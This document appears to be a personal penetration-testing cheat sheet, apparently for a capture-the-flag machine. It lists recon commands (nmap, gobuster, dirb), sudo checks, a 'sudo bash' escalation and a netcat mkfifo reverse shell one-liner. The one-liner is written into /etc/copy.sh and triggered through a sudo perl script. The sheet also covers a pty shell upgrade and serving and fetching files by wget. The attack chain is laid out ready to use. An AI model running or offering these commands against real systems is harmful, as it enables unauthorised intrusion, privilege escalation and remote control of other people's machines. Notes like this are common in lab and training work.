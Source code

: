 # nmap scan
sudo nmap -sC -sV -v -oN nmap.md TARGET_IP 

sudo nmap -T4 -A -p- -v -oN nmap.md TARGET_IP 

# Gobuster Scan
sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt

sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt



# dirbuster scan
sudo dirb http://TARGET_IP/ -R 


# Cat all find read
cat *


# import TARGET_IP
$IP



# To Check Sudo Permissions
sudo -l




# prev esc linux bash shell
sudo bash


# perl write to copy.sh [reverse shell]
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LOCAL_IP 5554 >/tmp/f' >/etc/copy.sh

sudo /usr/bin/perl /home/itguy/backup.pl



# python shell - stable bash shell
python3 -c  'import pty;pty.spawn("/bin/bash")'



# run python http server
sudo python -m SimpleHTTPServer 80


# wget download file
sudo wget http://LOCAL_IP/FILE_NAME -0  PATH/PATH/
